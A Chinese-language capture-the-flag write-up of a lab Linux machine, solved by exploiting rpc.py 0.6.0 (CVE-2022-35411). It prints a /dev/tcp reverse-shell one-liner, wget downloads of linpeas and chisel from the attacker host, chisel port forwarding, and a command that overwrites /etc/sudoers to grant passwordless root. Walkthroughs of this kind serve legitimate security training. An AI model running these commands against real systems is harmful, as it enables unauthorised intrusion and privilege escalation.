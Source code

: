 ```yaml
---
description: Linux / 中等难度 / rpc.py 0.6.0 RCE
---
```


# ✔️ PC

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描，发现2个开放端口：22和8000

<figure><img src="../.gitbook/assets/1 (4).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 从Nmap扫描结果也可直接得知，发现8000端口就是一个终端：

<figure><img src="../.gitbook/assets/2 (4).png" alt=""><figcaption></figcaption></figure>

* 将shell回连到自己的Kaili机器上，方便后续操作：

```bash
# Kali
nc -lvnp 5555
# 目标主机
sh -i >& /dev/tcp/192.168.45.154/5555 0>&1
```

<figure><img src="../.gitbook/assets/3 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (5).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 传linpeas.sh到目标系统进行信息收集：

```bash
# Kali目录下开启服务器
pyhton3 -m http.server 8888
# 目标主机
wget http://192.168.45.154:8888/linpeas.sh /home/user/linpeas.sh
```

<figure><img src="../.gitbook/assets/5 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
关于linpeas所收集到的可能可被利用的CVE漏洞是具有参考意义的，但并非每次都能成功作用于当前的目标系统，还需要结合目标系统实际的具体情况，仔细查看各项输出信息，再做判断。（兔子洞很容易出现在这个阶段，就像本例就没有利用到那些建议的CVE）
{% endhint %}

* 本例中，从linpeas的输出信息可得知还有两个活动的开放端口（53和65432）是之前Nmap阶段并没有扫描出来的，因此可以重点关注一下：

<figure><img src="../.gitbook/assets/6 (5).png" alt=""><figcaption></figcaption></figure>

* 在查看以root权限运行的进程时，发现有一个\`rpc.py\`的脚本是运行在/opt目录下的，该目录并不是安装默认应用程序的文件夹：

<figure><img src="../.gitbook/assets/7 (6).png" alt=""><figcaption></figcaption></figure>

* 查看一下该脚本发现它是运行在当前目标系统的65432端口上的，又是65432：

<figure><img src="../.gitbook/assets/8 (7).png" alt=""><figcaption></figcaption></figure>

* 因为之前的扫描无法得知端口65432上运行的关于服务的具体信息，所以决定使用chisel对该端口进行反向端口转发，再用Nmap扫出关于它的详细信息：

```bash
# Kali机器和目标系统机器都需要安装相同版本的chisel
# 本例下载的是chisel linux 1.9.1版本的，将该工具传入目标系统中
wget http://192.168.45.154:8888/chisel /home/user/chisel
chmod +x chisel
```

<figure><img src="../.gitbook/assets/9 (5).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器上开启chisel服务器，监听好端口：

```bash
chisel server -p 7777 --reverse
```

<figure><img src="../.gitbook/assets/10 (5).png" alt=""><figcaption></figcaption></figure>

* 然后在目标系统上开启chisel的客户端，并设置端口转发各个参数后运行：

```bash
chisel client 192.168.xx.xxx:7777 R:65432:127.0.0.1:65432
```

<figure><img src="../.gitbook/assets/11 (4).png" alt=""><figcaption></figcaption></figure>

* 此时Kali主机的服务端应该已经有了转发成功的数据流，可确认一下是否真的成功：

```bash
netstat -tulnp
```

<figure><img src="../.gitbook/assets/12 (4).png" alt=""><figcaption></figcaption></figure>

* 现在就可以用Nmap对Kali机器上的65432端口进行扫描，以获取该端口上运行的服务的详细信息了：

```bash
nmap -sC -sV -p 65432 127.0.0.1 -A -sT
```

<figure><img src="../.gitbook/assets/13 (4).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据Nmap输出信息，没有发现什么东西，所以直接尝试搜索\`rpc.py\`的漏洞利用，发现了一个远程代码执行的漏洞：

<figure><img src="../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 阅读代码后，发现可将\`exec\_command()\`函数中的内容直接修改为自己需要的命令：

<figure><img src="../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

* 将此处命令修改为可以让user用户无需密码即可以root权限运行各个命令：

```bash
'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

<figure><img src="../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

* 这个脚本是直接在exploitdb里下载的，里面每个=后面都有个\`3D\`的乱码得删掉，才能执行成功。

### ROOT

* 修改好后的脚本传入目标机器，赋予执行权限，直接运行该脚本即可提权成功：

<figure><img src="../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

* 获取flag：

<figure><img src="../.gitbook/assets/20 (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例以为又是一个评级过高的简单机器，因为该机器并没有GET SHELL的过程。在之后的提权阶段需要涉及到反向端口转发和仔细的进行信息枚举，才能发现可被利用的漏洞。

CVE-2022-35411
{% endhint %}
